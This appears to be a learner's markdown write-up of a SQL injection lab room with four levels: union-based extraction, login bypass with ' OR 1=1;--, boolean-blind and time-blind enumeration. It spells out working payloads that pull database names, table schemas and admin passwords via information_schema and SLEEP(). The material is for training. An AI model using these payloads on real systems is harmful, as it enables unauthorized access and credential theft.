


In this room we will try some Sql injection techiniques.  

we start an web application in level one, each level is unlocked after complete the current one 

the first on is UNION BASED 

lets first find out the collum`s count 

while the count is wrong the error will be returned. 

knowing that the query returns 3 columns we can start retreive information. 

using `database()` fuction on the union query we found the db name
with that we can use imformation.schema to retreive more information 
of tables and collumns until reach the target information to thisl level 
witch is an password for an specific user. 

using `group_contat()` on the third posion to display the wanted information 
we succefuly user information.schema metada data of mysql db to uncover 
tables names. 

so we succesfully extract table schema for staff table, allowing us to 
search for our target. 

retreive all staff information. 

#LEVEL 2 

on level 2 we ar going to try one of most commom Sql injetions 

authentication bypass techiniques. 

here we can try varius techinics 

in this case i will use ` 
select * from users where username='' OR 1=1;--' and password='anything' LIMIT 1;`

Let's break it down:

    username='' does not match any user
    OR 1=1 is always true, so the entire WHERE clause evaluates to true
    ;-- ends the statement and comments out everything after it, including the and password= check
    The database returns every row. The app sees rows and logs you in as the first user

The password field is irrelevant because -- removes it from the query before the database ever evaluates it. 

in case of having or targetin en specific user is possible to input the user an apply the same techinic to password fiel. 

# LEVEL 3 

Boolean-Based Blind SQLi

look on start screen all the feedback we have is an "taken=true" that says if 
user is taken or not 

that is an exaustive techinic the forces us to discovery an existent user tring 
leter by letter concat with `%` wildcard to match until revel all the user name 

so for example to discover the username admin 
we shoul try `'a%'` `taken = true` that says that an user with a exxist
than 'ad%' and so on until discover 'admin%' `taken = true` bu 'admin1%' `taken = false` confirm to us that admin exists as username. 

with that tecnic is also possible to discover database names, table as so on

but remember is exaustive 

the full breakdown is down below, but of you get it just go Level 4 

admin123' UNION SELECT 1,2,3 where database() like 's%';--

This returns 
{"taken":true}
. First letter is 
s. Fix that and test the second character:

admin123' UNION SELECT 1,2,3 where database() like 'sa%';--   {"taken":false}
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--   {"taken":true}

Keep narrowing: 
sqla%
 (false),
sqli%
 (true),
sqli_%
 (true),
sqli_t%
 (false),
sqli_th%
 (false),
sqli_thr%
 (false), and so on. This reveals that the full database name is 
sqli_three
.

Step 3: Find table names.

Now query information_schema.tables the same way, but test table names instead:

admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--

{"taken":true}. Something starts with 'u'. Keep going: us% (true),use% (true),user% (true), users with no wildcard (true). Now you know the table name: users.

Step 4: Get column names.

admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_name = 'users' and column_name like 'u%';--

Work through each column you want to enumerate. You find the columns username and password.

Step 5: Extract the username.

admin123' UNION SELECT 1,2,3 from users where username like 'a%';--

{"taken":true}. Keep going: ad%, adm%, admi%, admin with no wildcard (true). You’ve now got the username: admin

Step 6: Extract the password.

admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%';--

Work through the same way.

# LEVEL4

time based blind injection 

What you see:  Similar setup to Level 3, but the injection point is the Referrer HTTP header. More importantly, the response looks completely identical whether a condition is true or false. There is nothing to read on the page. Your only signal is whether the response takes longer to arrive.

here is the catch, here we use SLEEP(selectec_time) with an codion that triggers it
in case is true 

exemple SLEEP(5) WHERE someting or 1=1

since  1=1 is always true the query will sleep 5 seconds. 

 

look at the image the response took 5.5 seconds  for 
admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli%';--

that  tells us that databse name contains sqli... 

i will let the full breakdown here but againg its a exaustive techinic 

know  commom bd or names fot tables an so on heps to speed up the process 

perhaps you will need to manualy tru for database names 

but if you know that on login forms tables like user or users are common 

you can narrow down your tries to instead try use check for u,us,use 
try first  user or users than user1 or users123 to verify weather is true 
saveing you precius time. ) 

full breakdown  

Start with the first character:

admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--

5-second delay. The database name starts with s. Fix that letter and test the second:

admin123' UNION SELECT SLEEP(5),2 where database() like 'sq%';--

Another delay. The second letter is q. Keep going the same way:

admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli%';--

Delay. Then sqli_:

admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_f%';--

Delay. Then sqli_fo%,sqli_fou%, each one giving a delay until you arrive at the full name with no wildcard:

admin123' UNION SELECT SLEEP(5),2 where database() like 'sqli_four';--

Delay again, and this time there is no % at the end, which confirms you have the complete name. The database name is sqli_four.

Step 3: Enumerate tables and columns.

Same flow as Level 3, but every condition check uses SLEEP(). Query information_schema.tables for table names and information_schema.columns for column names. A delay means the character matches; immediate means it does not.

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'u%';--

Work through to find the users table, then enumerate its columns the same way.

Step 4: Extract the admin password.

admin123' UNION SELECT SLEEP(3),2 from users where username='admin' and password like '4%';-- 

